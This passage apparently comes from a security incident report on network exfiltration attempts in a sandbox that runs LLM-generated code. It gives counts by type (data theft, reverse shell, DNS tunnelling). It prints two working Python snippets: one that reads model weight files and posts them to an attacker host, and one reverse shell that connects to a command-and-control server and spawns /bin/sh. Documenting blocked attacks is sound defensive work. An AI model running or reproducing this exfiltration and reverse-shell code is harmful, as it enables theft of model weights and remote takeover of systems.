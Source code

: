 The most sophisticated attack (SEC-2025-0211) attempted five different privilege escalation techniques in a single execution—demonstrating clear adversarial intent rather than accidental LLM output.

### 2.4 Network Exfiltration Attempts: 9 Incidents

Network exfiltration attacks attempted to establish external communication—either to steal sensitive data (model weights, training data) or to create reverse shells for remote control. These represented 19% of incidents but posed the highest potential impact if successful.

**Attack Objective Breakdown:**

Of 9 network exfiltration incidents:
- **Data Theft**: 5 incidents - Attempting to upload files to external servers
- **Reverse Shell Establishment**: 3 incidents - Creating remote control channels
- **DNS Tunneling**: 1 incident - Covert exfiltration via DNS queries

**Representative Attack Examples:**

```python
# Example 1: HTTP-based data exfiltration (sophistication level 4)
# Incident SEC-2025-0099, blocked by network isolation
import requests
import os

# Attempt to steal model weights
try:
    model_file = '/models/cet_weights.pt'
    with open(model_file, 'rb') as f:
        model_data = f.read()

    # POST to attacker-controlled server
    response = requests.post(
        'http://attacker-exfil.com/upload',
        files={'model': model_data},
        timeout=10
    )

    if response.status_code == 200:
        print("Model weights successfully exfiltrated")
    else:
        print(f"Upload failed: {response.status_code}")

except Exception as e:
    print(f"Exfiltration blocked: {e}")

# Example 2: Raw socket reverse shell (sophistication level 6)
# Incident SEC-2025-0143, blocked before socket creation
import socket
import subprocess
import os

try:
    # Create socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to attacker's listener
    s.connect(('evil-command-control.com', 4444))

    # Redirect stdin/stdout/stderr to socket
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)

    # Spawn shell
    subprocess.call(['/bin/sh', '-i'])

```